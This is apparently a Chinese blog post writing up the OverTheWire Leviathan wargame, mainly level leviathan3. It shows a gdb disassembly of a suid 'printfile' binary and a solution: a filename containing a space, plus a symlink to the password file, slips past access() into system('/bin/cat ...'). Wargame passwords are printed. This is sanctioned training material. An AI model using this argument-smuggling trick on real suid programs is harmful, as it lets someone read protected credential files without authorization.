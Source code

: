 ```yaml
---
layout: post
title: OverTheWire Leviathan
tags: CTF
---
```

地址: [OverTheWire: Leviathan](http://overthewire.org/wargames/leviathan/).

说实话题目不难，可是从开始做题到做完的时间跨度却有一个多月，人家 rr 却做了一会儿就搞定了，我都在干嘛呢？

完整的笔记在 [这里](https://github.com/SilverRainZ/no-silver-bullet/blob/master/ctf/wargame-leviathan/wargame-leviathan.md)，
其中有点意思的是 leviathan3，所以特地摘抄出来：

登入机器后发现家目录有个带 `suid` 权限的可执行文件 `printfile`，属主是 `leviathan3`，用户组是 `leviathan2`，带 `suid` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

```text
leviathan2@melinda:~$ ll printfile  
-r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
leviathan2@melinda:~$ ./printfile 
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 `/etc/leviathan_pass/leviathan3` 却提示 `You cant have that file...`，上 gdb 分析看看。

以下是 `diaasm main` 的结果，假设执行了 `r filename`：

```gas
0x0804852d <+0>:     push   %ebp
0x0804852e <+1>:     mov    %esp,%ebp
0x08048530 <+3>:     and    $0xfffffff0,%esp
0x08048533 <+6>:     sub    $0x230,%esp
0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
0x08048546 <+25>:    mov    %eax,0x22c(%esp)
0x0804854d <+32>:    xor    %eax,%eax
0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; \ argc 和 1 比较，此处 argc 应该为 2
0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
0x08048555 <+40>:    movl   $0x8048690,(%esp)
0x0804855c <+47>:    call   0x80483d0 <puts@plt>
0x08048561 <+52>:    mov    0x1c(%esp),%eax
0x08048565 <+56>:    mov    (%eax),%eax
0x08048567 <+58>:    mov    %eax,0x4(%esp)
0x0804856b <+62>:    movl   $0x80486a5,(%esp)
0x08048572 <+69>:    call   0x80483b0 <printf@plt>
0x08048577 <+74>:    mov    $0xffffffff,%eax
0x0804857c <+79>:    jmp    0x80485e8 <main+187>

; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; \ 参数二：int amode
0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
0x08048597 <+106>:   test   %eax,%eax
0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
0x0804859b <+110>:   movl   $0x80486b9,(%esp)
0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
0x080485a7 <+122>:   mov    $0x1,%eax
0x080485ac <+127>:   jmp    0x80485e8 <main+187>

; -> 来自 0x08048599 <+108> 的跳转
0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
0x080485b5 <+136>:   mov    (%eax),%eax              ; /
0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; \ ...: argv[1]
0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
0x080485d7 <+170>:   lea    0x2c(%esp),%eax
0x080485db <+174>:   mov    %eax,(%esp)              ; \
0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
0x080485e3 <+182>:   mov    $0x0,%eax
0x080485e8 <+187>:   mov    0x22c(%esp),%edx
0x080485ef <+194>:   xor    %gs:0x14,%edx
0x080485f6 <+201>:   je     0x80485fd <main+208>
0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
0x080485fd <+208>:   leave  
0x080485fe <+209>:   ret    
```

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

> The access() function shall check the file named by the pathname pointed to by the path argument for accessibility according to the bit pattern contained in amode, **using the real user ID in place of the effective user ID and the real group ID in place of the effective group ID.**

而 `suid` 权限改变的只是进程的 `euid`，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是[**不可行**](http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs)的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`。

到这里我就没辙了，只能看别人的 writeup 了：[OverTheWire Leviathan Wargame Solution 2](https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/)，看完发现脑洞确实不够大。

**Solution:**  

access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`，对于 access 函数来说是执行了 `access("flag here", 4)`, 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")`，因此可以利用这个区别来绕过 access 函数。

```shell
leviathan2@melinda:/tmp$ mkdir slove
leviathan2@melinda:/tmp$ cd slove
leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
leviathan2@melinda:/tmp/slove$ ls
flag  flag here
leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
Ahdiemoo1j
/bin/cat: here: No such file or directory
```

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了（后面的题目大多数是过一遍 ltrace 就行了）：

```shell
leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
```

元旦快乐，希望新的一年不要那么痛苦了。
